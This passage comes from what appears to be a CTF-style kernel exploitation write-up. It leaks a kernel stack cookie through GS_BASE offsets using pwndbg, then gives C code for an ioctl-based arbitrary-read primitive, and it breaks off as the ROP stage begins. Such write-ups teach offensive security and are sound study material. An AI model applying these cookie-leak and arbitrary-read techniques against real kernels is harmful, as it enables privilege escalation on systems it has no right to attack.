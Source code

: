     0xffffffffad544310:	0x0000000000000000	0x0000000000000000
    0xffffffffad544320:	0x0000000000000000	0x0000000000000000

GS_BASE is at 0xffff8f3c4f600000, so the address that point to something near it is `0xffffffffad544050`:

    pwndbg> x/gx $gs_base
    0xffff8f3c4f600000:	0x0000000000000000
    pwndbg> x/gx 0xffffffffad544050
    0xffffffffad544050:	0xffff8f3c4fcdb8c0
    pwndbg> p/x 0xffff8f3c4fcdb8c0-$gs_base+0x28
    $2 = 0x6db8e8

But gdb is bad at calculating this stuff:
0xffff8f3c4fcdb8c0 − 0x6db8e8 = 0xFFFF8F3C4F5FFFD8
0xffff8f3c4f600028 (cookie) −0xFFFF8F3C4F5FFFD8 = 0x50
So 0x6db8e8 + 0x50 = 0x6DB938
Now we need to identify that address we are lucky to have an exploit that leaks the kernel base! (Running it we get `Kernel Base: ffffffffaae00000`), so 

    pwndbg> p/x 0xffffffffad544050 - 0xffffffffaae00000
    $3 = 0x2744050

So translating all in c code it will be:

```c
unsigned long cookie;
unsigned long leak[32] = {0};
unsigned long leak2[32] = {0};
leak[0] = kbase + 0x2744050;
ioctl(fd, device_ioctl, leak);
leak2[0] = leak[1] - 0x6db898;
ioctl(fd, device_ioctl, leak2);
cookie = leak2[1];
printf("Kernel Cookie: %lx\n", cookie);
```
We can make our code looks better creating a function that does this:

    unsigned long arb_read(unsigned long ptr) {
            unsigned long leak[0x108/8] = {0};
            leak[0] = ptr;
            ioctl(fd, device_ioctl, leak);
            return leak[1];
    }
    unsigned long cookie = arb_read(arb_read(kbase + 0x2744050) - 0x6db898);

Running it we get:

    Kernel Base: ffffffff8b200000
    Kernel Cookie: d54ce87f65d7bf00

Seems pretty good to me!

# EXPLOIT
As we saw from mitigation we have to rop also this time!
Running ROPgadget on our vmlinux file we got:

